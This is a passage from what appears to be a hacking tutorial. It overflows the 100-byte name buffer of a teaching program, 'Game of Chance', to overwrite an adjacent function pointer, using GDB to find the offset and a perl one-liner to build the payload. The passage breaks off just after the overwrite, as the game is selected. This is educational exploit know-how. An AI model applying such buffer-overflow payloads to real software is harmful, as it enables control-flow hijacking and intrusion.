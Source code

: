 You can temporarily suspend the current process by pressing _CTRL-Z_. At this point, the __last_game__ variable has been set to _1_, so the next time _1_ is selected, the function pointer will simply be called without being changed. Back at the shell, we figure out an appropriate overflow buffer, which can be copied and pasted in as a name later. Recompiling the source with debugging symbols and using GDB to run the program with a breakpoint on _main()_ allows us to explore the memory. As the output below shows, the __name__ buffer is _100_ bytes from the __current_game__ pointer within the user structure.

<pre style="color: white;">
reader@hacking:~/booksrc $ gcc -g game_of_chance.c
reader@hacking:~/booksrc $ gdb -q ./a.out
Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
(gdb) break main
Breakpoint 1 at 0x8048813: file game_of_chance.c, line 41.
(gdb) run
Starting program: /home/reader/booksrc/a.out

Breakpoint 1, main () at game_of_chance.c:41
41 srand(time(0)); // Seed the randomizer with the current time.
(gdb) p player
$1 = {uid = 0, credits = 0, highscore = 0, name = '\0' &lt;repeats 99 times&gt;,
current_game = 0}
(gdb) x/x &player.name
0x804b66c &lt;player+12&gt;:     0x00000000
(gdb) x/x &player.current_game
0x804b6d0 &lt;player+112&gt;:    0x00000000
(gdb) p 0x804b6d0 - 0x804b66c
$2 = 100
(gdb) quit
The program is running. Exit anyway? (y or n) y
reader@hacking:~/booksrc $
</pre>

Using this information, we can generate a buffer to overflow the __name__ variable with. This can be copied and pasted into the interactive Game of Chance program when it is resumed. To return to the suspended process, just type `fg`, which is short for _foreground_.

<pre style="color: white;">
reader@hacking:~/booksrc $ perl -e 'print "A"x100 . "BBBB" . "\n"'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAABBBB
reader@hacking:~/booksrc $ fg
./game_of_chance
5

Change user name
Enter your new name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Your name has been changed.

-=[ Game of Chance Menu ]=-
1 - Play the Pick a Number game
2 - Play the No Match Dealer game
3 - Play the Find the Ace game
4 - View current high score
5 - Change your user name
6 - Reset your account at 100 credits
7 - Quit
[Name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB]
[You have 60 credits] -> 1
